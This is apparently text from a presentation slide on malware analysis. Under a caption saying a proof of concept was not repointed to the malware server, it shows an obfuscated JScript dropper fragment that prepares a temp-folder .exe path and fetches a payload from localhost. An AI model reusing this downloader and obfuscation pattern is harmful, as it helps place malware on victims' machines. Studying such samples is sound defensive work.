

Didn’t modify the POC to point to the malware server
 function QsAwr4IqF3SrnD(UsnmGC3) {
                        var RTMD1Q =  "http://localhost/file.php";
                        var A6Yl7OdY = UsnmGC3.CreateObject("Scr"+JeNWbAzO+"ipt"+JeNWbAzO+"ing."+JeNWbAzO+"Fi"+JeNWbAzO+"leSy"+JeNWbAzO+"ste"+JeNWbAzO+"mO"+JeNWbAzO+"b"+JeNWbAzO+"je"+JeNWbAzO+"ct", "")
                        var Kma3BVim8YN = DOqP4dJqWifhC(UsnmGC3, "Sh"+JeNWbAzO+"el"+JeNWbAzO+"l.A"+JeNWbAzO+"ppl"+JeNWbAzO+"i"+JeNWbAzO+"ca"+JeNWbAzO+"t"+JeNWbAzO+"io"+JeNWbAzO+"n");
                        var gLX0dPRtqVV = DOqP4dJqWifhC(UsnmGC3, "A"+JeNWbAzO+"DO"+JeNWbAzO+"DB"+JeNWbAzO+"."+JeNWbAzO+"S"+JeNWbAzO+"t"+JeNWbAzO+"r"+JeNWbAzO+"ea"+JeNWbAzO+"m");
                        var ht40kQmiMPwFvoe = null;
                        d1keFgx = A6Yl7OdY.BuildPath(A6Yl7OdY.GetSpecialFolder(2), "Vk85JvggiO"+JeNWbAzO+".e"+JeNWbAzO+"xe");
                        gLX0dPRtqVV.Mode = 51*83-67-4163;
                        try {
                                ht40kQmiMPwFvoe = DOqP4dJqWifhC(UsnmGC3, "Mi"+JeNWbAzO+"c"+JeNWbAzO+"ros"+JeNWbAzO+"oft"+JeNWbAzO+".X"+JeNWbAzO+"ML"+JeNWbAzO+"HT"+JeNWbAzO+"T"+JeNWbAzO+"P");
                                ht40kQmiMPwFvoe.open("GET", RTMD1Q, false);
                        } catch(pimpey) {
                                try {
                                        ht40kQmiMPwFvoe = DOqP4dJqWifhC(UsnmGC3, "M"+JeNWbAzO+"SX"+JeNWbAzO+"ML2"+JeNWbAzO+".XM"+JeNWbAzO+"LH"+JeNWbAzO+"TT"+JeNWbAzO+"P");
                                        ht40kQmiMPwFvoe.open("GET", RTMD1Q, false);
                                } catch(gzF0QXKPK3) {
                                        try {
                                                ht40kQmiMPwFvoe = DOqP4dJqWifhC(UsnmGC3, "MSX"+JeNWbAzO+"ML"+JeNWbAzO+"2.S"+JeNWbAzO+"erv"+JeNWbAzO+"erX"+JeNWbAzO+"MLH"+JeNWbAzO+"TT"+JeNWbAzO+"P");
                                                ht40kQmiMPwFvoe.open("GET", RTMD1Q, false);;
                                        } catch(tnDt9FAKRdbFzO) {
                                                try {
                                                        ht40kQmiMPwFvoe=new XMLHttpRequest();
                                                        ht40kQmiMPwFvoe.open("GET", RTMD1Q, false);
                                                } catch(SKBNfyo05PAFp){
                                                        return 54-29-95*4+11+344;
                                                }
                                        }
                                }
                        }

0468574568.cab